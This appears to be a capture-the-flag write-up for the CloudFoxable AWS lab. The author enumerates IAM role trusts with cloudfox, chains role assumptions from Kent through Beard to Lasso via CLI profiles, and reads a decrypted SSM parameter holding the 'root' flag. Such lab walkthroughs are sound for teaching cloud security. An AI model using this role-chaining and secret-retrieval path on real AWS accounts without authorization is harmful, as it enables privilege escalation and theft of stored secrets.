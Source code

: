 **CloudFoxable Setup**

Create profile for `Kent`

```
[Kent]
region = us-west-2
role_arn = arn:aws:iam::533267344535:role/Kent
source_profile = cloudfoxable
```

**Challenge Details**

You've just gained access to the role `Kent`. Can you get to the `root` flag in the SSM parameter store?

**Cleanup Tasks**

None required

### Notes

Ran `cloudfox` with `all-checks` to see what resulted:

```
cloudfox aws -p cloudfoxable all-checks -v2
```


```
cloudfox aws -p cloudfoxable role-trusts -v2
```

![[Pasted image 20240526183125.png]]

Assume into Beard then Lasso:

```
[Beard]
region = us-west-2
role_arn = arn:aws:iam::533267344535:role/Beard
source_profile = Kent

[Lasso]
region = us-west-2
role_arn = arn:aws:iam::533267344535:role/Lasso
source_profile = Beard
```

As Lasso I wanted to fetch the `root` related SSM parameter with the following command: 

```
aws --profile Lasso --region us-west-2 ssm get-parameter --with-decryption --name /production/CICD/root
```

The output from the command reveals the flag. 

## Segue
